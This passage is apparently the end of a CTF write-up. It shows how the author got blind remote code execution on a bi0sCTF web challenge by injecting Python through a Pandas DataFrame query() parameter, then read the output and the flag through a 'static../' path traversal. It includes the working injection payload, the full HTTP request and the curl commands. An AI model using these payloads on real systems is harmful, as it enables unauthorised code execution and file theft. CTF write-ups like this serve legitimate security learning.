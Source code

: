 After more investigation, the [Pandas DataFrame `query()` documentation](https://pandas.pydata.org/docs/reference/api/pandas.DataFrame.query.html) quickly mentioned that variables in the local environment could be referenced by prefixing it with an `@` symbol. Armed with this knowledge and HackTricks' [Bypass Python sandboxes page](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes), I eventually found a way to run code - `OBEL' or (@__builtins__.__import__("os").system("sleep 5")).__eq__(1)#`. Note that this was blind RCE, but since the request took 5 seconds to return, I knew it was being run.

### Solve
My final HTTP request was (ignore the long line pls):

```
GET /cgi-bin/search_currency.py?currency_name=OBEL' or (@__builtins__.__import__("os").system("ls / > /tmp/test")).__eq__(1)# HTTP/1.1
Host: instance.chall.bi0s.in:10735
Authorization: Basic YWRtaW46wq0=
Connection: close

```

To retrieve the flag, I ran the commands below.

```
$ curl http://instance.chall.bi0s.in:10064/static../tmp/test
9753555db7ed1df995555128ae32cf442f767382
bin
boot
dev
docker-entrypoint.sh
...
$ curl http://instance.chall.bi0s.in:10064/static../9753555db7ed1df995555128ae32cf442f767382
bi0sctf{9a18559a42e7302b15eeb45c09ab39d6}
```


**Flag:** `bi0sctf{9a18559a42e7302b15eeb45c09ab39d6}`

## Final Thoughts
As I've spent more time in CTFs and done more difficult challenges, I've realized the importance of exploit chains. A good amount of high-severity vulnerabilities are just conglomerations of low-severity vulnerabilities linked together in a chain that allows greater access than each vulnerability individually. This was definitely a fun exploit chain to discover with some sly roadblocks thrown up (like a non-ASCII password!), but comes to show the importance of not giving up and always being thorough in your recon. Although we weren't given much information at first, continuously looking for more and trying to make sense of each line of code and config is what allowed me to understand what was happening and what I needed to do. 

Looking forward to more fun challs from bi0sCTF! 